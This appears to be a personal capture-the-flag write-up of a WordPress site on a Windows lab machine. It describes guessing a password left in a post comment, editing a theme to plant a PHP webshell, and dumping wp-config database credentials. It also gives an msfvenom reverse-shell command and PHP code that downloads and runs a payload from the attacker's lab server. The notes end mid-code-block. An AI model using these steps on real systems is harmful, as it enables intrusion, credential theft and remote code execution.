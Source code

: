1. Did default scans.
2. Found WordPress website on /retro/
3. Only poster is user named "wade", found random comment says "If i forget to spell it, with `parzival`". This turned out to be the password.
4. Since we're now in WordPress with access, we can make a reverse shell from a WP Theme  as we've done before.
5. We use c99-webshell.php to spawn a Full PHP webshell. Unfortunately this is a windows machine.

http://10.10.136.72/retro/wp-admin/theme-editor.php -> Single Page adjustment:

http://10.10.249.174/retro/wp-admin/theme-editor.php?file=page.php&theme=90s-retro


file_put_content -> file_get_content into wp-content/uploads/

Found some WordPress config for the SQL database:

      // ** MySQL settings - You can get this info from your web host ** //
      /** The name of the database for WordPress */
      define('DB_NAME', 'wordpress567');

      /** MySQL database username */
      define('DB_USER', 'wordpressuser567');

      /** MySQL database password */
      define('DB_PASSWORD', 'YSPgW[%C.mQE');

      /** MySQL hostname */
      define('DB_HOST', 'localhost');

      /** Database Charset to use in creating database tables. */
      define('DB_CHARSET', 'utf8');

      /** The Database Collate type. Don't change this if in doubt. */
      define('DB_COLLATE', '');


Tried making a reverse shell executeable in msfvenom:
`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`

And upload it by using file_put_concents from PHP In the WP-Admin.

Setup Python HTTP server to serve Reverse shell EXE.

Simple PHP code to Exploit and download stuff:

```
<?php

$url = 'http://10.14.12.121:8000/rshell-3.exe';

var_dump(file_put_contents("C:\\inetpub\\wwwroot\\retro\\wp-content\\uploads\\2022\\09\\rshell-3.exe", file_get_contents($url)));

//echo system("cd ./wp-content/uploads/2022/09/ & dir & start rshell-3.exe");


exit;


?>
```

MSFConsole connection works; but not sure where to go from there.

Tried to upload WinPEASx86 and found a few vulnerabilites i might be able to exploit.

For MSFConsole use:

```
use multi/handler for Callback. 
